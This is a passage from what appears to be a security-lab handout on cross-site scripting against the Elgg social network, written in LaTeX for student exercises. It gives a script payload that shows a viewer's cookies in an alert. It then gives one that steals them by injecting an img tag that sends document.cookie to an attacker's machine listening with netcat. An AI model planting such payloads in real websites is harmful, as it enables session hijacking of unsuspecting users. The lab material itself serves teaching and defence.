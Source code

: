 \subsection{Task 2: Posting a Malicious Message to Display Cookies}

The objective of this task is to embed a JavaScript program in your 
{\tt Elgg} profile, such that when another user views your profile,
the user's cookies will be displayed in the alert window.
This can be done by adding some additional code to
the JavaScript program in the previous task:
\begin{lstlisting}
<script>alert(document.cookie);</script> 
\end{lstlisting}



\subsection{Task 3: Stealing Cookies from the Victim's Machine}

In the previous task, the malicious JavaScript code written by 
the attacker can print out the
user's cookies, but only the user can see the cookies, not the 
attacker.  In this task, the attacker wants the JavaScript code 
to send the cookies to himself/herself.
To achieve this, the malicious JavaScript code needs to 
send an HTTP request to the attacker, with the cookies appended to 
the request.

We can do this by having the malicious JavaScript insert an {\tt $<$img$>$} tag with
its {\tt src} attribute set to the attacker's machine.  When the JavaScript inserts
the {\tt img} tag, the browser tries to load the image from the URL in
the {\tt src} field; this results in an HTTP GET request sent to the attacker's
machine. The
JavaScript given below sends the cookies to the port 5555 of the
attacker's machine (with IP address {\tt 10.9.0.1}), where the attacker has a TCP server
listening to the same port.  

\begin{lstlisting}
<script>document.write('<img src=http://10.9.0.1:5555?c=' 
                       + escape(document.cookie) + '   >'); 
</script> 
\end{lstlisting}


A commonly used program by attackers is \texttt{netcat} (or \texttt{nc}) , which, if running with
the \texttt{"-l"} option, becomes a TCP server that listens for a connection on the specified
port. This server program basically prints out whatever is sent by the client and sends to the
client whatever is typed by the user running the server. Type the command below to listen on
port \texttt{5555}:

